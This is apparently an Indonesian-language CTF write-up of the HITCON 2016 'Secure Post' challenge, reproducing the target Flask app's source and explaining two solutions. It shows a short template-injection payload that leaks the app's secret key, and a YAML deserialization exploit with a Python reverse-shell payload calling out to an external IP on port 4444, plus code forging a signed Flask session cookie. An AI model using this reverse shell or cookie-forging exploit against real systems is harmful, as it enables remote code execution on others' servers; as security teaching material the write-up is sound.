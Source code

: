 ```yaml
---
layout: post
title: "Hitcon 2016 : Secure Post"
description: "Hitcon 2016 : Secure Post"
headline: 
modified: 2016-10-10
category: Hitcon 2016
tags: [Hitcon 2016]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Here is a service that you can store any posts. Can you hack it?
http://52.198.91.29/

### Solution : 

Di berikan web service dengan flask. dan kita bisa mengakses source code nya di `http://52.198.91.29/source`

```python

from flask import Flask
import config

# init app
app = Flask(__name__)
app.secret_key = config.flag1
accept_datatype = ['json', 'yaml']

from flask import Response
from flask import request, session
from flask import redirect, url_for, safe_join, abort
from flask import render_template_string

# load utils
def load_eval(data):
    return eval(data)

def load_pickle(data):
    import pickle
    return pickle.loads(data)

def load_json(data):
    import json
    return json.loads(data)

def load_yaml(data):
    import yaml
    return yaml.load(data)

# dump utils
def dump_eval(data):
    return repr(data)

def dump_pickle(data):
    import pickle
    return pickle.dumps(data)

def dump_json(data):
    import json
    return json.dumps(data)

def dump_yaml(data):
    import yaml
    return yaml.dump(data)


def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)

def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }

    datatype = session.get("post_type", config.default_datatype)
    data = session.get("post_data", config.default_data)

    if datatype not in handlers: abort(403)
    return handlers[datatype](data)

def store_posts(posts, datatype):
    handlers = {
        "eval": dump_eval,
        "pickle": dump_pickle,

        "json": dump_json,
        "yaml": dump_yaml
    }
    if datatype not in handlers: abort(403)
    data = handlers[datatype](posts)

    session["post_type"] = datatype
    session["post_data"] = data


@app.route('/')
def index():
    posts = load_posts()
    return render_template('index.html', posts = posts, accept_datatype = accept_datatype)

@app.route('/post', methods=['POST'])
def add_post():
    posts = load_posts()

    title = request.form.get('title', 'empty')
    content = request.form.get('content', 'empty')
    datatype = request.form.get('datatype', 'json')
    if datatype not in accept_datatype: abort(403)
    name = request.form.get('author', 'anonymous')[:10]

    from datetime import datetime
    posts.append({
        'title': title,
        'author': name,
        'content': content,
        'date': datetime.now().strftime("%B %d, %Y %X")
    })
    session["name"] = name
    store_posts(posts, datatype)
    return redirect(url_for('index'))

@app.route('/source')
def get_source():
    with open(__file__, "r") as f:
        resp = f.read()
    return Response(resp, mimetype="text/plain")

```


### Secure Post 

pada fungsi `add_post` terlihat bahwa author name yang kita input akan di simpan ke dalam session.
`session["name"] = name` dan pada fungsi `render_template` session kita di ambil 10 karakter pertamanya
`name = session.get('name', 'anonymous')[:10]`. kemungkinan kita bisa melakukan template string injection.

namun kita tidak bisa menggunakan payload yang lebih dari 10 karakter awalnya kita coba 
"[[config.items()]] " tapi tidak menghasilkan apa karena > 10 karakter. dan setelah beberapa lama akhirnya di temukan flag dengan "[[config]]"
pas 10 karakter.  Note "[] adalah {}".

```html
<p class="lead blog-description"><Config {'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_PATH': None, 'TRAP_HTTP_EXCEPTIONS': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_DOMAIN': None, 'USE_X_SENDFILE': False, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': 43200, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_HTTPONLY': True, 'SERVER_NAME': None, 'APPLICATION_ROOT': None, 'DEBUG': False, 'JSON_AS_ASCII': True, 'TESTING': False, 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'JSON_SORT_KEYS': True, 'LOGGER_NAME': 'post_manager', 'PREFERRED_URL_SCHEME': 'http', 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}', 'TRAP_BAD_REQUEST_ERRORS': False}>
```

### Secure Post 2

ada 2 fungsi yang menarik `store_posts` dan `load_posts` awalnya saya kira `eval` dan `pickle` 
bisa di manfaatkan dalam hal ini untuk membantu melakukan RCE. tapi setelah di lihat lagi kodenya 
memiliki beberapa checking yang sangat strict terhadap `eval` dan `pickle` 

pengecekan di sini `accept_datatype = ['json', 'yaml']` dan `load_posts` di comments
dan beberapa handlers seperti ini `if datatype not in handlers: abort(403)`
sehingga kita mustahil untuk memanfaatkan itu.

ternyata `YAML` sifatnya pun sama dengan pickle ketika melakukan unserialize
tapi untuk melakukan injeksi kita tidak bisa langsung melakukan via `add_post`
kita injeksi langsung ke dalam session flask tersebut. di website nya juga ada 
pesan `Data is not stored in database`. jadi post kita di simpan di dalam session Flask

tapi flask itu melakukan signed sama cookie nya jadi kita ngak bisa 
langsung rubah. untuk itu saya simulasikan dengan `secret_key` yang sama
untuk generate cookie payload yang kita inginkan

```python

class Exploit(object):
 def __reduce__(self):
   fd = 1
   return (exec,
           ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("128.199.226.218",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);',))
   

# dump utils
@app.route('/')
def index():
    anu = yaml.dump(Exploit())
    serializer_interface = SecureCookieSessionInterface()
    serializer = serializer_interface.get_signing_serializer(app)
    out = serializer.dumps({
    "name": "shit",
    "post_data": "- "+anu,
    "post_type": "yaml"
})

    print(out)
    return render_template('index.html', out=out)

```

kemudian kita injeksikan session payload ke web tersebut. sebelumnya
kita nyalakan listening pada server kita misalnya port: 4444 seperti
dalam exploit di atas.

[![asciicast](https://asciinema.org/a/6khdwmh6c607znru18kahziij.png)](https://asciinema.org/a/6khdwmh6c607znru18kahziij)

Flag : `hitcon{unseriliaze_is_dangerous_but_RCE_is_fun!!}`